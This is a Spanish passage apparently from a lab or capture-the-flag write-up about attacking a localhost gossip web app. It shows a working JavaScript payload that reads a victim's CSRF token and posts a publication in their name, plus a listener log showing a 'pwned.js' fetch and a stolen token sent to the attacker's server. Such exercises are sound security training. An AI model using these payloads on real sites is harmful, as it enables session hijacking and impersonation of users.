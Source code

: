 - Con esta solicitud POST se crea una publicación en nombre de la víctima tras secuestrar su sesión.
    

**Ejemplo de modificación de una publicación:**

```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=Mi%20jefe%20es%20un%20cabronazo&subtitle=Se%20tenso&text=Quizás%20fui%20hackeado&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

> **Explicación:**  
> 
> 1. Carga y ejecución del script externo.
>     
> 2. Extracción y decodificación del CSRF token.
>     
> 3. Realización de la solicitud POST para publicar en nombre de la víctima.
>     
> 
> Se ha agregado el parámetro `withCredentials = true` para manejar tokens de sesión dinámicos.

**Información Adicional:**

- Se recomienda estar en escucha en el servidor (usando `python3 -m http.server 80`) para visualizar las solicitudes entrantes, tal como se muestra en la salida:
    

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.52 - - [08/Apr/2025 19:09:47] "GET /pwned.js HTTP/1.1" 200 -
192.168.1.52 - - [08/Apr/2025 19:09:47] "GET /?token=49985ee0-7392-4539-a815-62a3f3455579 HTTP/1.1" 200 -
```

- Se detalla también cómo interceptar solicitudes POST con herramientas como Burp Suite para identificar los valores críticos (e.g., `csrf_token` y otros parámetros).
    

> **Explicación:**  
> Se han clarificado y organizado las instrucciones para facilitar la comprensión. Se han añadido explicaciones sobre la funcionalidad y la finalidad de cada fragmento de código. Se resalta que, en algunos ejemplos, el secuestro de sesión es opcional, ya que el ejemplo continúa con la demostración paso a paso.

---